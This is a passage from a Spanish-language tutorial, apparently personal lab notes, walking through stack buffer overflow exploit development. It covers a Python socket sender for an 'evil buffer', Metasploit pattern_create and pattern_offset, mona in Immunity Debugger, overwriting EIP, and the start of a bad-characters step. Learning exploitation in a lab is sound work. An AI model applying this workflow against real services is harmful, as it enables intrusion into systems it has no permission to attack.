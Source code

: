 ```python
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

Y ahora en nuestra terminal vamos a ejecutar un módulo de metasploit llamado pattern_create.rb donde insertaremos los 1000 bytes:
```python
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000
```
![[Pasted image 20240710080034.png]]

Y lo pegamos en el apartado de `Payload` dentro del script creado previamente
![[Pasted image 20240710080355.png]]

Ahora nos dirigimos al Immunity Debugger y ejecutamos el siguiente comando de mona, ponemos 600 porque es donde el programa crashea:
```python
!mona findmsp -distance 600
```
![[Pasted image 20240710080505.png]]

Ejecutamos el exploit
![[Pasted image 20240710080529.png]]

Y ahora si volvemos al inmunity debugger deberia de aparecernos el sigueinte EIP 
![[Pasted image 20240710080605.png]]

Una vez obtenido este número de EIP, ya podemos obtener el offset ejecutando este comando:
```python
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 1000 -q 72413172
```
![[Pasted image 20240710080703.png]]

Lo añadimos a nuestro exploit y añadimos `BBBB` al campo `retn`
![[Pasted image 20240710081233.png]]

Volvemos a ejecutar el exploit
![[Pasted image 20240710081330.png]]

Y ahora deberia aparecernos el siguiente EIP
![[Pasted image 20240710081357.png]]

## BAD CHARS
El siguiente paso será obtener los bad chars, lo cual consiste en que para ciertos servicios existen algunos caracteres que no se aceptan, provocando una ejecución errónea cuando generamos la shellcode. Estos caracteres se denomina bad character y debemos de eliminarlos de nuestro exploit.

